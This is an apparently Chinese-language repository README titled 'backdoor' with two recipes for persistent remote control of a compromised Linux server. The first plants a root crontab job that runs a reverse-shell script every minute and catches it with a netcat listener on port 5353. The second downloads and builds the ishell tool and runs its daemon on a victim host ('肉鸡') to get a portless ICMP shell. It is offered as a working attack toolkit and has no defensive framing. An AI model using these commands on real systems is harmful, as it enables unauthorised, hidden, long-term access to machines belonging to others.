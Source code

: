 # backdoor

****************************************************
1、 Bash TCP反弹后门<br>
bash_tcp_backdoor.sh<br>
vim /etc/crontab<br>
*/1 * * * * root /root/ok.sh<br>
或<br>
crontab -e<br>
*/1 * * * *  /root/ok.sh<br>
systemctl restart crond<br>
控制机执行<br>
nc -l -v -p 5353

****************************************************
2、icmp shell无端口后门<br>
原文：https://www.cnblogs.com/bravexz/p/9761411.html<br>
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz<br>
tar -zxvf ish-v0.2.tar.gz<br>
cd ISHELL-v0.2/<br>
make && make linux<br>
make linux<br>
肉鸡192.168.1.28上执行命令：<br>
./ishd -i 555 -t 0 -p 1099 &<br>
控制机执行：<br>
./ish -i 555 -t 0 -p 1099 192.168.1.28<br>
安装之后，需要在被控端服务器执行如下命令：<br>
./ishd -i 555 -t 0 -p 1099 &<br>
-i 指定ID，标识自己的请求<br>
-t 指定icmp数据的类型 <br>
-p 指定 icmp 数据 包大小 ,一般 情况下 1024 即可<br>
